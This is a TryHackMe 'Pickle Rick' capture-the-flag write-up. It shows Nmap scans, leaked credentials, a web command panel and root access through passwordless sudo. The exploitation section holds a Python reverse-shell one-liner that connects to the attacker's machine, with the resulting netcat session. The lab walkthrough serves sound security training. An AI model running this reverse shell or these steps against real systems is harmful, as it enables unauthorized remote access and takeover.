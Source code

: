 # THM - Pickle Rick

#### Ip: 10.10.103.60
#### Name: Pickle Rick
#### Rating: Easy

----------------------------------------------------------------------

pickle.jpeg

```text
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -p-  --min-rate 10000 10.10.103.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basuc scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -sC -sV -T4 10.10.103.60 -p 22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5235f7e6c7c64166d9efe23b67dc765c (RSA)
|   256 d00a4604437517acce7f615384723ce7 (ECDSA)
|_  256 0eb8ff00831db6bb1d5c800b7be0c9c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```

Heading to the sight we see a note from Rick to Morty:

site.png

Checking out the source of the page we find a username left as a comment:

note.png

Cool. Lets also manually check for a robots.txt page while we're here:

robots.png

Ok, not exactly positive what this is. trying to go to http://10.10.103.60/Wubbalubbadubdub we get a Not Found page. 

Lets do some directory fuzzing to see if we can find any other pages:

ferox.png

Cool, looks like we've found a login page. Let's check that out:

login.png

Nice! We were able to login with the found username and used Wubbalubbadubdub for the password.

Interesting, looks like there is a panel to execute commands on the server with. Running `whoami` we see we have execution:

panel.png

Trying to go to access any other materials on the site we get redirected to `/denied.php`

denied.png

Going back to the command panel running `ls -la` shows me some interesting files:

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Trying to view any of these files using the `cat` command is blocked:

cmd.png

Ok, so there must be some command filtering happing here. Lets try and bypass this by using the panel to get a reverse shell.

### Exploitation

First I'll set up a Netcat listener on my attacking machine and then head over to

From there i can grab a Python reverse shell oneliner and runi it:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And a second later I get a call back to my listener:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.103.60] 48232
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-103-60
$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

From here I can answer the first question:

```text
What is the first ingredient that Rick needs?
```

first.png

Looks like there was a clue left behind:

```text
www-data@ip-10-10-103-60:/var/www/html$ cat clue.txt 
Look around the file system for the other ingredient.
```

Poking around the box a bit more we find the second ingredient in rick's `/home` directory:

```text
What is the second ingredient in Rick’s potion?
```

second.png

### Privilege Escalation

Lets try and get root access now. I'll try `sudo -l` to list out any commands I can run with root permissions:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-103-60.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-103-60.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow- looks like we can run whatever we want as sudo. Lets just switch our user to the root user:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo su -
root@ip-10-10-103-60:~# whoami
root
root@ip-10-10-103-60:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And from there we can answer the final question:

```text
What is the last and final ingredient?
```

third.png

Thanks for following along!

-Ryan

------------------------------------------------------------------